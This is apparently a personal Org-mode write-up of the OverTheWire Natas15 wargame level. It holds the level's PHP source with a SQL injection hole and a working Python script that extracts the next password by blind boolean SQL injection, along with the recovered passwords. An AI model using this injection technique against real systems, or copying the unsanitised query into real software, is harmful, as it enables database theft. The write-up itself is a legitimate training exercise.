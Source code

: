 :PROPERTIES:
:ID:       7d44aa7c-68da-4fb0-bbc5-8315c9d85aad
:END:
#+title: Natas15
* Previous
[[id:97c8b7c2-a841-41a4-ba77-8a5a045b74cb][Natas14]]

* Password
AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

* Flag
WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

* Notes

From top page:
#+begin_src html
   <form action="index.php" method="POST">
    Username:
    <input name="username"/>
    <input type="submit" value="Check existence">
    </input>
   </form>
#+end_src

From index-source:
#+begin_src php
<?

    /*
      CREATE TABLE `users` (
      `username` varchar(64) DEFAULT NULL,
      `password` varchar(64) DEFAULT NULL
      );
    ,*/


    if(array_key_exists("username", $_REQUEST)) {
        $link = mysql_connect('localhost', 'natas15', '<censored>');

        mysql_select_db('natas15', $link);

        $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";

        if(array_key_exists("debug", $_GET)) {
                echo "Executing query: $query";
        }

        $res = mysql_query($query, $link);

        if($res) {
                if(mysql_num_rows($res) > 0) {
                        echo "This user exists.";
                } else {
                        echo "This user doesn't exist.";
                }

        } else {
                echo "Error in query.";
        }

        mysql_close($link);

    }
?>
#+end_src

#+begin_src python :results output
#!/usr/bin/env python3

import requests
import re
import html
from string import digits, ascii_uppercase, ascii_lowercase
from bs4 import BeautifulSoup as bs
from natas_pass import passwords

session = requests.Session()
username = "natas15"
password = passwords[username]

url = "http://{}.natas.labs.overthewire.org/".format(username)

# response = session.get(url, auth=(username, password))
# response = session.get(url + "index-source.html", auth=(username, password))

pw = ""
chars = digits + ascii_uppercase + ascii_lowercase


for _ in range(32) :
    l = 0
    r = len(chars)-1

    while l < r :
        c = (l+r) // 2
        # print("Trying {}".format(chars[c]))
        response = requests.post(
            url,
            auth=(username, password),
            data={'username':'natas16" AND password LIKE BINARY "{}{}%"; #'.format(pw, chars[c]), "password":""},
        )

        exists = True if re.findall("(This user exists.)", response.text) else False

        if exists :
            pw += chars[c]
            # print("char {} added to pw. Now: {}".format(chars[c], pw))
            break

        else :
            response = requests.post(
                url,
                auth=(username, password),
                data={'username':'natas16" AND password > BINARY "{}{}"; #'.format(pw, chars[c]), "password":""},
            )

            exists = True if re.findall("(This user exists.)", response.text) else False

            if exists :
                l = c+1
                # print('l={}'.format(chars[l]))
            else :
                r = c-1
                # print('r={}'.format(chars[r]))

    else :
        pw += chars[l]
        # print("l = {}, r = {}, pw = {}".format(chars[l],chars[r],pw))

print(pw)

#+end_src

#+RESULTS:
: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

* Next
[[id:c4d41ed7-56c4-496b-a8b9-5b0862c6e380][Natas16]]
